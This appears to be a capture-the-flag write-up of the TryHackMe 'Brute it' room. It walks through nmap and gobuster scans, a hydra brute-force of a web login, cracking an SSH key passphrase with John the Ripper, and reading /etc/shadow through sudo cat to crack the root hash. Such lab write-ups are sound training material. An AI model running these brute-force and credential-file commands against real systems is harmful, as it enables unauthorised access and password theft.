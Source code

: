 ```yaml
---
published: true
---
```


Well hello and welcome to another writeup of a room called brute it from tryhackme. It involves :

- Brute forcing
- Hash cracking
- Privilege Escalation

![]({{site.baseurl}}/images/brute_it/room.jpg)

Room : [Brute it](https://tryhackme.com/room/bruteit)

So lets get started.

## Scanning For Open Ports

> nmap -A IPADDR

We get the following result :


> Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-19 15:35 IST
 Nmap scan report for 10.10.214.54
 Host is up (0.24s latency).
 Not shown: 998 closed ports
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
 |   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
 |_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
 |_http-server-header: Apache/2.4.29 (Ubuntu)
 |_http-title: Apache2 Ubuntu Default Page: It works
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 55.95 seconds


We already got the answers of the first 4 questions.

So now lets hop on to the website

![]({{site.baseurl}}/images/brute_it/site.png)

## Scanning for Web Directories

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirb/common.txt

After scanning we get a /admin directory which has the following login page. Well we don't have the username or the password but after checking the source code we get the following comment :


> <!-- Hey john, if you do not remember, the username is admin -->

Pretty secure huh?

## Hail Hydra

Now lets bruteforce the login page with hydra 

> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.118.163 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"

Explaination : 

```-l admin``` : Specifying the username

```-P /usr/share/wordlists/rockyou.txt``` : Specifying the password dictionary

```10.10.118.163``` : The Target IP

```http-post-form``` : The type of attack protocol

```/admin``` : The directory of the form

```user=^USER^&pass=^PASS^``` : The login response from the form

```Username or password invalid``` : The login message if the login failed

After running hydra we get the password ```xavier```. So lets log in.

![]({{site.baseurl}}/images/brute_it/john.png)

We get the RSA key and the web flag.

## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/JohnTheRipper/ssh2John.py id_rsa > hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passpharse.

## Getting SSH

Lets try to log into ssh using john as a username as we saw that in the previous comment

![]({{site.baseurl}}/images/brute_it/sshlogin.png)

And we are in!! We get the user flag right away in john's directory.

## Privilege Escalation

Now lets look for SUIDs by running ``` sudo -l```

![]({{site.baseurl}}/images/brute_it/suid.png)

We can run ```cat``` as sudo. Looking on [GTFOBins](https://gtfobins.github.io/) I find that this will allow me to read any file. So now lets try to read the ```/etc/shadow``` file.

> LFILE=/etc/shadow                                                                                         
 sudo cat "$LFILE"

And we get the root hash. However I also found out that you can just cat the shadow file as sudo without doing the above process. After reading the hash i copied it over to my machine and used john to get the password.

> john --wordlist=/usr/share/wordlists/rockyou.txt rhash

Now lets login.

![]({{site.baseurl}}/images/brute_it/root.png)

There you go! We completed this challenge and got all the flags! This one was a web based challenge which is a category on which I suck but still it was pretty simple and straight forward. See you next time :)
